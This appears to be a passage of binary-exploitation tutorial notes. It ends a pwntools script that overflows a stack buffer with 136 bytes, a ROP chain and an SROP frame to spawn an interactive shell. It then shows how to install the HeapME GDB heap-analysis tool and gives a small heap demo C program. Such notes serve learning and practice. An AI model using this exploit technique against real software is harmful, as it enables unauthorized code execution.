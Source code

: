 ```
frame.rsi = 0
frame.rdx = 0
frame.rsp = bin_sh
frame.rip = syscall

# send stack smash and payload
p.sendlineafter(b": ", b"A"*136 + rop.chain() + bytes(frame))
l.success('Enjoy!')
p.interactive()

```

```
python3 leak-bof-exploit.py
```

## HeapME (Heap Made Easy) Heap Analysis and Collaboration Tool

### Install HeapME

```
git clone https://github.com/htejeda/gef.git

pip install -r gef/requirements.txt

echo "source ~/gef/gef.py\nsource ~/gef/scripts/heapme.py" > ~/.gdbinit
```

```
gdb

help heapme
```

## heapme\_demo.c

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void *x[8];

int main() {
    for (int i=0; i < 8; i++) {
        x[i] = malloc(0x38);
        memset(x[i], (i + 0x30), 0x38);
    }

    for (int i=0; i < 8; i++)
        free(x[i]);

    fprintf(stderr, "Press CTRL+C to exit.\n");
    pause();
    return 0;
}
```
